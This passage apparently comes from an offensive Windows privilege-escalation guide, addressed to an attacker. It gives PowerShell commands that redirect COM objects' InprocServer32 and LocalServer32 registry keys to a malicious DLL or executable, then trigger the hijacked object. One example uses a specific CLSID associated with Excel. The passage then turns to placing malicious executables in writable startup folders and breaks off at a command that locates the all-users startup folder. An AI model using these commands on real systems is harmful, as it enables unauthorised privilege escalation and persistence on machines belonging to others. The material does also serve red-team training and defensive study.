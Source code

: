 ```powershell
Set-ItemProperty -Path 'HKLM:\Software\Classes\CLSID\{<GUID>}\InprocServer32' -Name '(Default)' -Value 'C:\path\to\malicious.dll'
```

Explanation:
- `{<GUID>}`: The CLSID of the vulnerable COM object that runs with elevated privileges.
- `InprocServer32`: The key where the path to the DLL is defined.
- `C:\path\to\malicious.dll`: Your malicious DLL that will run with elevated privileges when the COM object is invoked.

#### Hijack `LocalServer32` for Executable-Based Privilege Escalation
If the COM object loads an executable, you can hijack the `LocalServer32` key to execute your malicious code with elevated privileges.

```powershell
Set-ItemProperty -Path 'HKLM:\Software\Classes\CLSID\{<GUID>}\LocalServer32' -Name '(Default)' -Value 'C:\path\to\malicious.exe'
```

Explanation:
- `LocalServer32`: The key that points to an executable associated with the COM object.
- `C:\path\to\malicious.exe`: Your malicious executable that will run with SYSTEM or Administrator privileges.

#### Triggering the Hijacked COM Object
After modifying the COM object, you need to trigger its execution. If the COM object is invoked by a system process, it may automatically execute with elevated privileges. Otherwise, you can force it to run using PowerShell or by invoking the application that relies on the COM object.

You can use `PowerShell` to invoke the COM object programmatically:
```powershell
$comObject = [activator]::CreateInstance([type]::GetTypeFromCLSID("{<GUID>}"))
```
Replace `{<GUID>}` with the CLSID of the hijacked COM object. This invocation should now load your malicious payload with elevated privileges.

#### Privilege Escalation by Hijacking a COM Object in Excel
Suppose you’ve found that the CLSID for Microsoft Excel is vulnerable and runs under elevated privileges (for example, during certain system tasks). You can hijack it to escalate privileges by pointing it to a malicious DLL.
```powershell
$regPath = "HKLM:\Software\Classes\CLSID\{00020813-0000-0000-C000-000000000046}\InprocServer32"
Set-ItemProperty -Path $regPath -Name "(Default)" -Value "C:\path\to\malicious.dll"
```
Now, whenever Excel (or another application relying on that COM object) is executed by a privileged process, it will load and execute your malicious DLL with elevated privileges.

# Startup Folders

#### Locating Startup Folders
If a user or group has write access to a startup folder, you can add a malicious executable that will automatically run when the system starts.
- For all users startup (this applies to all users on the machine):
    ```powershell
    $StartupFolderAllUsers = $env:ALLUSERSPROFILE + "\Microsoft\Windows\Start Menu\Programs\Startup"
    Write-Host "All Users Startup Folder: $StartupFolderAllUsers"
    ```
